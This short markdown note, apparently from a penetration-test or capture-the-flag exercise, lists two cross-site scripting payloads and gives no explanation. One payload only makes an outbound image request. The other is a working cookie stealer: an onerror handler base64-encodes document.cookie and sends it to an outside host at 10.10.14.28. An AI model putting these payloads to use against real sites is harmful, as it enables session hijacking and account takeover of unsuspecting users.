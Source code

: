# XSS payloads

```text
<img src=http://10.10.14.28/abc />
<img src=x onerror=this.src="http://10.10.14.28/?cookie="+btoa(document.cookie)/>
```



